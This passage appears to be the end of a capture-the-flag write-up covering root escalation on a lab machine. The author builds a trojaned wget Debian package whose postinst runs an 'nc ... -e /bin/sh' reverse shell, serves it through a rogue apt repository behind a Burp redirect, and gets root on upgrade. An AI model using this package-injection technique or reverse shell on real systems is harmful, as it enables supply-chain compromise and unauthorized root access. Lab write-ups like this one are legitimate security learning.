 What is left to do now, is to create a fake debian package that will give us code execution. I found a nice [guide](https://versprite.com/blog/apt-mitm-package-injection/) that explains the process. First we look at the target box which packages are installed and choose any of them:

```
dpkg -l
...
wget                                   1.18-5+deb9u2                      amd64        retrieves files from the web
...
```

We download the next version of the package (could have also used the current one) and extract it:

```
wget  http://ftp.debian.org/debian/pool/main/w/wget/
wget_1.18-5+deb9u3_amd64.deb
dpkg-deb -R wget_1.18-5+deb9u3_amd64.deb wget_out
```

To get code execution we add a simple post install script that connects back to us in "wget\_out/DEBIAN/postinst":

```
nc 10.10.16.66 80 -e /bin/sh
```

We also edit "wget\_out/DEBIAN/control" and update the Version to something newer, in this case "1.18-5+deb9u8". We continue by packaging our new packet again and it to the repository:

```
chmod 0555 wget_out/DEBIAN/postinst
dpkg-deb -b wget_out wget_1.18-5+deb9u8_amd64.deb
reprepro -b devuan/ includedeb ascii wget_1.18-5+deb9u8_amd64.deb
```

Whats left to do is to make the target box reach the repository. We let burp listen on "10.10.16.66:10000" and use the redirect traffic proxy listener option to send all traffic to "127.0.0.1:8000", where we have a python web server running, serving the repository we just created.

Now we can trigger the exploit:

```
sudo apt-get update
sudo apt-get upgrade
```

On ugrade we get a verification warning (because our package is not authenticated) which we happily accept. After the install is finished we get a shell as root. Since we don’t have a user flag yet we search for that one too and find it in "/srv/chroot/apache/home/web/ots-yODc2NGQ/user.txt".

Overall a really enjoyable box by [jkr](#), especially for the root part.